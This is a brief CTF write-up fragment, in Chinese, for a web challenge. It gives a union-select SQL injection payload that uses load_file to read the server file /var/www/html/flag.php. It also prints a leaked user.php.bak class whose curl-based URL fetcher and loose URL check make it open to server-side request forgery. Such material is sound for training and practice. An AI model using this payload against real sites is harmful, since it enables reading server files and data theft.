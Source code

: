 Payload：
```
-1++union++select++1,load_file("/var/www/html/flag.php"),3,4#
```
查看源码即可

SSRF预期解：

Robotx.txt 发现 user.php.bak备份文件

```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
